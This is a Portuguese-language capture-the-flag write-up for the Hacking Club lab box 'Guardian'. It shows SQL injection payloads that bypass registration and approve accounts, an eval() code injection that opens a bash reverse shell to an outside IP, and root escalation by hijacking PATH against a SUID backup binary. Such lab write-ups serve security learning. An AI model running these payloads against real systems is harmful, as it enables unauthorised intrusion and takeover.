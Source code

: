 ```yaml
---
title: 'Guardian Writeup'
date: '2024-06-16'
tags: ['SQLI', 'CODE INJECTION', 'Linux']
draft: false
summary: 'Writeup do CTF Guardian da Hacking Club.'
images: ['/static/images/guardian-writeup-images/1.png']
authors: ['default']
---
```


![Guardian 1](/static/images/guardian-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Guardian

### IP: 172.16.4.104

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 d3:3b:8b:a7:7a:ac:07:57:97:2b:23:35:fc:a4:5e:42 (ECDSA)
|_  256 b7:4c:f4:d4:3f:be:78:52:88:50:3a:d0:33:b9:48:b1 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
| http-title: Guardian Insurance
|_Requested resource was /login
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

## Enumeration

![Guardian 2](/static/images/guardian-writeup-images/2.png)

A primeira coisa que eu tentei for um SQLi (SQL Injection) nessa parte da aplicação , mas não funcionou.

Entretanto a parte de “Register for first access” é vulnerável.
![Guardian 3](/static/images/guardian-writeup-images/3.png)

Se você passar ‘ or 1=1# diretamente vc já bypassa. Mas eu optei fazer pelo burp.
![Guardian 4](/static/images/guardian-writeup-images/4.png)

Após isso registrei um novo usuário.
![Guardian 5](/static/images/guardian-writeup-images/5.png)

Quando você tentar se logar , ele diz que precisa a aprovação do admin:
![Guardian 6](/static/images/guardian-writeup-images/6.png)
Veja que a aplicação retorna um JWT , eu pensei inicialmente em atacar esse JWT com bruteforce e none attack mas não deu certo.

Como já temos um SQLi (Sql Injection) na parte de “register for first access” a gente vai usar isso pra alterar a aprovação no banco de dados.

```jsx
"EIN": "' or 1=1; SELECT table_name FROM information_schema.tables WHERE table_schema=database();-- "
```

![Guardian 7](/static/images/guardian-writeup-images/7.png)

```jsx
"EIN": "' or 1=1; SELECT column_name FROM information_schema.columns WHERE table_name='users';-- "
```

![Guardian 8](/static/images/guardian-writeup-images/8.png)

```jsx
"EIN": "' or 1=1; UPDATE users SET approved = 1 WHERE approved = 0;-- "
```

![Guardian 9](/static/images/guardian-writeup-images/9.png)

![Guardian 10](/static/images/guardian-writeup-images/10.png)

Com isso podemos logar no sistema .
![Guardian 11](/static/images/guardian-writeup-images/11.png)

O sistema não tem muita funcionalidade , somente a rota `/customers` funciona.

Quando abrimos a aba de customers e interceptamos , a gente ve que existe um parâmetro chamado “action” sendo passado.
![Guardian 12](/static/images/guardian-writeup-images/12.png)

Quando passamos o +2\*5 a aplicação retorna o valor 10, ou seja ela está executando a função `eval()` logo o parâmetro `action` é vulnerável a code injection.

```
 "action": "db.getClients('56-7890123') +2*5"
```

![Guardian 13](/static/images/guardian-writeup-images/13.png)

---

## Foot Hold

```jsx
"action": "db.getClients('56-7890123'); require('child_process').execSync('bash -c \\"bash -i >& /dev/tcp/10.0.31.150/4444 0>&1\\"').toString();"
```

![Guardian 14](/static/images/guardian-writeup-images/14.png)

`nc -lnvp 4444`
![Guardian 15](/static/images/guardian-writeup-images/15.png)

---

## Privilege Escalation

**SUID** /opt/backup encontrado:

`find / -perm -u=s 2>/dev/null`
![Guardian 16](/static/images/guardian-writeup-images/16.png)

Verificando as strings do SUID:

`strings backup`
![Guardian 17](/static/images/guardian-writeup-images/17.png)

O plano é criar um script chamado `mysqldump` que será invocado antes pelo ELF chamado`backup`.

No Linux, as coisas são executadas em uma ordem específica. Quando executamos um comando, o Linux usa a variável de ambiente `$PATH` para encontrar onde esse programa está localizado (em qual diretório). Podemos modificar isso para fazer o programa procurar primeiro na pasta `/tmp`.

Assim, em vez do programa executar sua função normal, faremos com que ele execute nosso script malicioso primeiro:

```bash
echo '#!/bin/bash' > /tmp/mysqldump
echo 'chmod u+s /bin/bash' >> /tmp/mysqldump
chmod +x /tmp/mysqldump
export PATH=/tmp:$PATH
./backup mysql_backup:7fxzh7m*
```

![Guardian 18](/static/images/guardian-writeup-images/18.png)

Ou seja, criamos um script malicioso que, quando executado pelo programa SUID `backup` (com `bash -p` para manter as permissões), vai modificar o `/bin/bash` para nos conceder root.

---

## Proof

![Guardian 19](/static/images/guardian-writeup-images/19.png)
